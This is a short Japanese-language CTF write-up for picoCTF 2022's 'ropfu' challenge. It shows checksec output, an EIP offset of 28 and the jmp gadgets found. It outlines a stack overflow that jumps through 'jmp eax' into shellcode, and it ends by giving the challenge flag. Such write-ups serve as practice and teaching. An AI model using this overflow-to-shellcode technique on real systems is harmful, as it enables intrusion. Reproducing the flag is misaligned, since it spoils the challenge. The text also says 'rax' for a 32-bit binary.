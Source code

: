 ## Description
What's ROP?
Can you exploit the following program to get the flag? Download source.
nc saturn.picoctf.net 50294

## Writeup
```
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=3aa2bb6a5bf44d90a355da83fa909bbf5d9d90ce, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/home/pwn/challenges/picoCTF2022/ropfu/attachment/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

静的リンクされている。

```
gef➤  pattern search $eip
[+] Searching for '68616161'/'61616168' with period=4
[+] Found at offset 28 (little-endian search) likely
```

eipに加えて、eax, ebx, esp, ebpを操作できる。
eaxにシェルを起動するシェルコードを格納して、jmpすればいい。

```
$ ROPgadget --binary vuln | grep ": jmp"
(snip)
0x0805334b : jmp eax
0x08056802 : jmp ebp
0x08049bdf : jmp ebx
0x0804f64e : jmp ecx
0x0804a8a3 : jmp edi
0x0804f3e9 : jmp edx
0x080a6280 : jmp esi
```

`0x0805334b`を使う。`rax`には`0x0805334b`が格納され、これが命令列として解釈されるため途中で4バイトジャンプさせる。

Flag: `picoCTF{5n47ch_7h3_5h311_5b4fc869}`